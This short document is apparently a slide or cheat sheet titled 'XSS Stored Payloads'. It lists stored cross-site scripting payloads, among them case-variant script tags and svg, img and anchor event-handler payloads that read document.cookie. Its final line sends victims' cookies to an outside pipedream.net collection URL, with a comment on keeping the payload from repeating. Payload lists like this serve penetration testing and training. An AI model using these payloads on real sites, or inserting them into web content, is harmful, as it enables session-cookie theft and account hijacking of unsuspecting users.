

# XSS Stored Payloads
<script>alert(document.cookie);</script>
<Script>alert(document.cookie);</Script>
<script >alert(document.cookie)</script >
<sCriPt>alert("XSS");</sCriPt>
<a onmouseover="alert(document.cookie)">xxs link</a>
<svg/onload="alert(document.cookie)">
<img src=404 onerror="alert(document.cookie)">

// this command loads the src but will run on repeat unless the remove attribute is included.
<img src=x onerror="this.src='https://enplta38m1nbs.x.pipedream.net?cookie='+document.cookie; this.removeAttribute('onerror');"></img>